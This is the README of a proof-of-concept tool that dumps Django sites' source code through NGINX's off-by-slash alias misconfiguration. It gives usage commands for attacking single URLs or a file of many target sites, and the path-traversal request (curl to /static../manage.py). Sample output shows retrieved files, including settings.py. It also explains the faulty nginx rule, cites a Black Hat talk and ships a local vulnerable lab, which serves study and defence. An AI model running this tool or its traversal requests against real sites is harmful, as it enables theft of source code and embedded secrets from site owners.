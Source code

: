 # PoC: Off-by-slash Django Site Dumper

> A proof of concept to dump Django website's source code affected by NGINX's off-by-slash misconfiguration.

![](demo.gif)


## Installation

```bash
$ git clone https://github.com/adamyordan/offbyslash-django-dumper

$ cd offbyslash-django-dumper

$ pip install -r requirements.txt
```


## Usage
Pass target url as argument
```bash
$ python exploit.py --url http://django-site.com/
```

Or using files containing multiple target urls
```bash
$ cat targets.txt
http://django-site.com/
https://other-affected-site.org/
http://cool-website.me/

$ python exploit.py --file targets.txt
```

The result is available at `dump` directory
```
$ tree dump

dump/
└── http-django-site.com-
    ├── api
    │   ├── urls.py
    │   ├── users.py
    │   └── views.py
    ├── common
    │   └── logger.py
    ├── manage.py
    └── app
        ├── __init__.py
        ├── settings.py
        ├── urls.py
        ├── validate.py
        └── wsgi.py
```

## Explanation

This dumper works by using a local file inclusion vulnerability caused by a misconfiguration when using NGINX to serve 
static files. Equivalent curl command used by this dumper to dump local files is:
```bash
$ curl http://django-site.com/static../manage.py
```

Affected sites will return a response with status `200 OK` and body containing the source code of `manage.py` file.


This local file inclusion is caused by a slight but fatal mistake in Nginx's configuration (_Nginx off-by-slash fail_).
For example, here is a snippet of affected nginx rule:
```
location /static {
    alias /home/app/static/;
}
```

By sending a request to `http://django-site.com/static../manage.py`, Nginx matches the rule and appends the remainder 
to destination `/home/app/static/../manage.py`. Therefore serving the `manage.py` as static file.


This dumper utilize this vulnerability to automatically crawl the source code of Django sites, inferring available
source code files by using static analysis (read: pattern matching!), and (recursively?) expand source codes.


## Example Vulnerable Site

An example website is provided in this repository at directory `vulnerable-site` in Dockerfile format.

```bash
$ cd vulnerable-site
$ docker build -t tmp/vulnsite . && docker run --rm -it -p 8000:80 -d tmp/vulnsite


$ cd ..
$ python exploit.py --url http://localhost:8000/

[+] START CRAWLING: http://localhost:8000/
[+] downloading: dump/http-localhost-8000-/manage.py
[+] downloading: dump/http-localhost-8000-/app/settings.py
[+] downloading: dump/http-localhost-8000-/app/wsgi.py
[+] downloading: dump/http-localhost-8000-/app/urls.py
[+] FINISHED: http://localhost:8000/


$ tree dump/
dump/
└── http-localhost-8000-
    ├── app
    │   ├── settings.py
    │   ├── urls.py
    │   └── wsgi.py
    └── manage.py
```


## Reference
- [Blackhat USA 2018 presentation slide - by Orange Tsai](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf)
- [Nginx alias documentation](http://nginx.org/en/docs/http/ngx_http_core_module.html#alias)